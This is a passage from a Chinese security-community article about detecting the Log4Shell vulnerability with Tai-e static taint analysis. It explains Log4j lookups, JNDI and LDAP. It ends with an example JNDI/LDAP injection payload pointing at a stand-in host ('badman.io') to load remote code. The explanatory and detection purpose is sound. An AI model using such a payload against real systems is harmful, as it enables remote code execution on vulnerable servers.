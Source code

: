 

# 太阿静态分析检测Log4Shell - 先知社区

太阿静态分析检测Log4Shell

- - -

## 0x01 Tai-e 的污点分析方案

Java 污点分析（追踪污点数据流）最令人头疼的两个难点：别名关系和动态反射。

Tai-e 污点分析提出一个基于指针分析的架构，来解决别名分析和反射分析两个问题。

**解决方案思路**：

-   将污点转换成对象，然后利用指针分析传播污点数据，这样自然地解决了别名关系
-   采用 2019 年提出的、目前推导能力最强的静态反射分析技术，来处理反射

## 0x02 Log4Shell 漏洞原理

日志方法：logger.error(str)

#### 2a Lookup 机制

将 ${...} 中的特定字符串映射到相应的值，举例如图所示。

| 表达式 | 解析值 |
| --- | --- |
| logger.error("${java:version}") | Java version 1.8.0\_292 |
| logger.error("${java:os}") | Windows 10 10.0, architecture: and64-64 |

通过 lookup 机制，让 log4j 的记录功能更加强大，跨平台性更强，还可以通过该机制输出环境信息而无需硬编码。

#### 2b JNDI Lookup

JNDI（Java Naming and Directory Interface）：${jndi : ...}

-   Java 平台的一个标准扩展
-   通过绑定的概念将名称和对象联系起来：名称-->对象
    -   文件系统：文件名-->文件
    -   DNS：URL地址-->IP地址
-   提供了 "通过名称查找到相应对象" 的规范接口
-   实际的查找功能，交由具体的技术实现，比如 RMI、DNS、Corba、Ldap 等

#### 2c JNDI & LDAP Lookup

LDAP（Lightweight Directory Access Protocol）：${jndi : ldap: ...}

-   一种目录访问协议，可用于在网络上访问和管理分布式目录服务
-   Log4j 将输入解析成远程地址，并发起请求
-   服务器响应请求

构造恶意 payload：${jndi : ldap://badman.io/Exploit}。
